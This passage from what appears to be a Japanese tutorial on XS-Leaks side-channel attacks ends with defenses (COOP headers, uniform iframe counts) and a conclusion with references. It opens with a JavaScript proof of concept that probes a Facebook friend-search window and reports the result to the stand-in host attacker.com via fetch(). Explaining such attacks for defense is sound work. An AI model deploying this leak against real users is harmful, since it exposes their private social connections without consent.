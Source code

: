 ```html
<script>
  let win = window.open('https://www.facebook.com/search/str/chen/users-named/me/friends/intersect')
  setTimeout(() => {
    if (win.frames.length === 0) {
      fetch('https://attacker.com/?result=no')
    } else {
      fetch('https://attacker.com/?result=yes')
    }
    win.close()
  }, 2000)
</script>
```

次に、このウェブページをターゲットに送信します。ターゲットがウェブページを開くと、攻撃者のサーバーが検索結果を受信します。

この種の攻撃に対する防御はより困難です。なぜなら、ここではSame-site Cookie Laxが機能しないからです。コードは`window.open`を使用しており、strictに設定しない限り、Cookieはリクエストと一緒に送信されます。

前述のFetch Metadataも効果がありません。なぜなら、これは実際には通常の要求だからです。

既存のメカニズムを使用してこれを防御したい場合は、COOP（Cross-Origin-Opener-Policy）ヘッダーを追加できます。これにより、開かれたウィンドウは元のウィンドウとの接続を失い、`win.frames`にアクセスできなくなります。

もう1つのオプションは、検索結果ページを変更することです。検索結果があるかどうかに関係なく、常にiframeを持つか、まったく持たないようにして、iframeの数を通じて情報が漏洩しないようにします。

## 結論

この記事では、サイドチャネル攻撃とは何かを学び、XSLeaksの基本原理を理解しました。また、これが実際に悪用可能な脆弱性であることを示す実際の例もいくつか見ました。

もちろん、XSLeaksは通常、他の脆弱性と比較してより多くの前提条件と条件を必要とし、得られる結果も限られています。しかし、個人的には、これは依然として非常に興味深い脆弱性であると信じています。

Google自体は、バグバウンティプログラムでXSLeaksについて議論する専用の[ページ](https://bughunters.google.com/learn/invalid-reports/web-platform/xsleaks/5022006283862016/xsleaks-and-xs-search)を持っています。なぜなら、彼らは既にほとんどの問題を認識しており、この分野を専門に研究しているエンジニアがいるからです。したがって、バウンティハンターがこれに時間を費やすことは推奨されません。

参考文献：

1. [Fetch Metadataでウェブ攻撃からリソースを保護する](https://web.dev/i18n/ja/fetch-metadata/)
2. [XS-Leaks wiki](https://xsleaks.dev/)

